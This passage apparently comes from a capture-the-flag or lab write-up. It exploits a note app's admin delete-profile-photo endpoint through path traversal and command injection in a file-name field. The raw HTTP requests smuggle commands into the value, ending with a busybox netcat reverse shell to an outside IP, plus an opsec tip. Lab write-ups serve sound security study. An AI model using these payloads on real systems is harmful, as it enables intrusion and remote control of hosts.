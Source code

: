 ![https://i.ibb.co/d4svqbh/Login-As-Admin.png](https://i.ibb.co/d4svqbh/Login-As-Admin.png)

Now, we are an admin user. Last thing is to abuse the endpoints that are accessible by admin user.

![https://i.ibb.co/25wxJv7/Delete-Profile-Photo.png](https://i.ibb.co/25wxJv7/Delete-Profile-Photo.png)

It seems we can exploit this by simply sending semicolon and execute our listener command.

```jsx
PUT /update-user-note/..$'..$'admin$'delete-profile-photo%3F_method=POST& HTTP/1.1
Host: noteapp.icsd:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 43
Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiI1ZWI5M2I5OS02NzJhLTQ1ZGItYTBhNS1mYjk0OTJlNWRjNTUiLCJpYXQiOjE2OTYyNzMwNzQsImV4cCI6MTY5NjI3NDg3NH0.a2Gk3S4ppWkiOJk9lIwGjqLyBPaPtdv_S0L0sKINTSo
X-Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbklkIjoiY2M3MWU5N2UtNWE3MC00MDQ0LThjMjUtYzFkODczNzM4NzMzIiwiaWF0IjoxNjk2Mjc1NzE2LCJleHAiOjE2OTYyNzkzMTZ9.pdR7ok7Xn-cU3YDZVperWvFTD9TNR789abKJ3QsmtBs

{
"fileName": "random_file.jpg; whoami"
}
```

![https://i.ibb.co/pKcp8wN/delete-profile-whoami.png](https://i.ibb.co/pKcp8wN/delete-profile-whoami.png)

Using `busybox` instead of direct `nc` command seems more opsec for me.

```jsx
PUT /update-user-note/..$'..$'admin$'delete-profile-photo%3F_method=POST& HTTP/1.1
Host: noteapp.icsd:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 79
Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiI1ZWI5M2I5OS02NzJhLTQ1ZGItYTBhNS1mYjk0OTJlNWRjNTUiLCJpYXQiOjE2OTYyNzMwNzQsImV4cCI6MTY5NjI3NDg3NH0.a2Gk3S4ppWkiOJk9lIwGjqLyBPaPtdv_S0L0sKINTSo
X-Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbklkIjoiY2M3MWU5N2UtNWE3MC00MDQ0LThjMjUtYzFkODczNzM4NzMzIiwiaWF0IjoxNjk2Mjc1NzE2LCJleHAiOjE2OTYyNzkzMTZ9.pdR7ok7Xn-cU3YDZVperWvFTD9TNR789abKJ3QsmtBs

{
"fileName": "random_file.jpg; busybox nc 192.168.100.248 53 -e /bin/bash"
}
```
